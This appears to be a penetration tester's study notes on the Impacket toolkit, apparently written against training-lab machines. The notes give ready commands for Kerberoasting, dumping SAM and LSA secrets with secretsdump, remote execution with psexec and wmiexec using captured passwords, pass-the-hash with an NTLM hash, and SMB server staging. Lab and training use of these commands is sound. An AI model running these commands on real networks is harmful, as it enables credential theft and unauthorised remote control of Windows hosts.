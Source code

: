 ```yaml
---
tags:
  - Exploitation
  - OperatingSystems
  - Windows
  - Tooling
  - Impacket
---
```

[Impacket](https://github.com/SecureAuthCorp/impacket) is a toolset built-in Python that provides us a way to interact with network protocols directly. Some of the most exciting tools we care about in Impacket deal with `psexec`, `smbclient`, `wmi`, Kerberos, and the ability to stand up an SMB server.

## Installation

```
python3 -m pipx install impacket
```

1. [Impacket Guide: SMB/MSRPC - Hacking Articles](https://www.hackingarticles.in/impacket-guide-smb-msrpc/)

## Usage
### Locating Credentials

```
sudo python3 GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```

### Dump Credentials 

[impacket/examples/secretsdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)

```shell-session
locate secretsdump 
```

```shell-session
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### Remote Access with Credentials


```
wmiexec.py 'administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125'
```

```
python psexec.py  active.htb/administrator:Ticketmaster1968@10.10.10.100
```

### SMB 

See [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide|SMB Guide]] 

1. Can use `psexec.py` to get reverse shell if write access to the entire system

#### Create SMB Server 

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

New versions of Windows block unauthenticated guest access, as we can see in the following command:

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```
### SamRDump

```shell-session
samrdump.py 10.129.14.128
```

### RPCDump

[impacket/examples/rpcdump.py at master · fortra/impacket · GitHub](https://github.com/fortra/impacket/blob/master/examples/rpcdump.py)

### WMI

```shell-session
wmiexec.py Cry0l1t3:"P455w0rD!"@10.129.201.248 "hostname"
```

## Pass the Hash

```shell-session
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```

There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:

- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py), see [[SSH Tunnelling#Chisel]]
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)

## Impacket Ticket Converter

[impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) 